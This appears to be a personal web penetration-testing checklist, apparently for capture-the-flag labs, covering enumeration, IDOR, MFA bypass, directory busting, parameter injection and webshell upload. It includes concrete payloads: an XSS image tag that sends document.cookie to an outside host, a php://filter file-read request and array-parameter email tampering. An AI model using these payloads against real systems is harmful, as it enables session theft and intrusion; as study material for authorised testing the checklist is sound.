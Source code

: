 Quick check:
	is there a login?
		try admin, administrator..
		try sqli


What's running:
	check nmap
	look at web page
	view source code
	burp
		check X-Powered-By header

robots.txt

check source for
	links to "hidden" pages like admin-panels
	passwords
	hints
	parameters
	mail addresses of users and admins/support/privileged users

go to the url for folders used on the site to check for file listings and other files
	especially if they are called files

list possible users and usernames
	validate?
		login form
		registation form

login
	second step of mfa can sometimes be bypassed by just going to a page requiring the access
	

check for IDOR
	numbers
	random ids
	...

Google
	"technology/framework" exploit
	poc
	cve

What's the file structure
	check common ones
		admin, 
	Directory busting
	[[InfoSec/Tools n Info/02 - Web Exploration/Fuzzing/gobuster|gobuster]]
	[[feroxbuster|feroxbuster]]

virtual hosts

checking for REST Endpoints or GET/POST parameters to exploit
	are there forms
	.ajax() call (if jQuery)
	.fetch 
	in browser
		forms: we find on the webpage - open the network tab in the dev tools of the browser - send off the form - see where the connection goes to in the network tab

Checking for REST Endpoints in the information we collected (source code or directory busting)

Parameters & Injections
	try making parameters arrays by adding `[]` before = like `username[]=whatever`
		also try adding more than one value, for example for e-mail addresses
			`'user[email][]': [self.target, self.evil]`
	try changing id= 1 to 2 ... '
	"/item/13" <- change the 13 to 1 or 0
	html injections
		`<img src='http://10.10.14.156:8000/dog.jpg'>`
		`<img src='a' onerror='var i=new Image;i.src="http://10.10.14.156:8000/?"%2bdocument.cookie;'>`
	SQLi
	commands in the os's shell
	commands in programming language

Where ^
	forms
	parameters in url

PHP filter
	PHP://filter/convert.base64-encode/resource=
	example: `GET /test.php?view=PHP://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php HTTP/1.1`



webshell or revshell upload
	use what the system is built on; php, python django, vbscript node.js... perl might also work


Run scanners:
	`nikto -h http://whatever.thm`
	`whatweb -a 4 http://dailybugle.thm`
	``

https://owasp.org/www-project-web-security-testing-guide/latest/

